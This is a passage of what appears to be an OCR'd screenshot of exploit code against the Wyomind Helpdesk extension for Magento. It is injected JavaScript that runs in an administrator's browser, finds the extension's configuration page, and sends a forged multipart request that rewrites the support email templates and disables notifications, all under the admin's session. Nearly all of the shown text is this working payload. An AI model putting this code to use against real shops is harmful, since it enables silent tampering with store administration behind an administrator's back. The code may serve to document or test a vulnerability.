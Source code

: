           "Content-Disposition: form-data; name=\"groups[emails][groups][customer_settings][fields][confirmation_content][value]\"\r\n" +
          "\r\n" +
          "Dear {{customer_firstname}},\x3cbr/\x3e\x3cbr/\x3e\r\n" +
          "Your message has been sent to the support team.\r\n" +
          "Here is the message content:\x3cbr/\x3e\r\n" +
          "\"{{message}}\" \x3cbr/\x3e\x3cbr/\x3e\r\n" +
          "Kind Regards,\r\n" +
          "The Support Team.\r\n" +
          "-----------------------------14303502862141221692667966053\r\n" +
          "Content-Disposition: form-data; name=\"groups[emails][groups][customer_settings][fields][notification_enabled][value]\"\r\n" +
          "\r\n" +
          "0\r\n" +
          "-----------------------------14303502862141221692667966053\r\n" +
          "Content-Disposition: form-data; name=\"groups[emails][groups][customer_settings][fields][notification_content][value]\"\r\n" +
          "\r\n" +
          "Hello {{customer_firstname}},\x3cbr/\x3e\x3cbr/\x3e\r\n" +
          "Your ticket \"{{ticket_object}}\" (#{{prefixed_id}}) has been updated.\r\n" +
          "Please login to your account via this link in order to see the new message: {{customer_account_link}}\x3cbr/\x3e\x3cbr/\x3e\r\n" +
          "Regards,\r\n" +
          "The Support Team.\r\n" +
          "-----------------------------14303502862141221692667966053\r\n" +
          "Content-Disposition: form-data; name=\"config_state[wyomind_helpdesk_emails_support_team_settings]\"\r\n" +
          "\r\n" +
          "0\r\n" +
          "-----------------------------14303502862141221692667966053\r\n" +
          "Content-Disposition: form-data; name=\"groups[emails][groups][support_team_settings][fields][notification_enabled][value]\"\r\n" +
          "\r\n" +
          "0\r\n" +
          "-----------------------------14303502862141221692667966053\r\n" +
          "Content-Disposition: form-data; name=\"groups[emails][groups][support_team_settings][fields][notification_content][value]\"\r\n" +
          "\r\n" +
          "You received a new message from a customer.\r\n" +
          "-----------------------------14303502862141221692667966053--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
        aBody[i] = body.charCodeAt(i);
        xhr.send(new Blob([aBody]));
        }
        submitRequest();
    }

    var request = new XMLHttpRequest();
    request.onload = successListener;
    request.responseType = 'document';
    request.open('GET', document.querySelector('[data-ui-id="menu-wyomind-helpdesk-configuration"]').querySelector('a').href, true);
    request.send();
    </script>
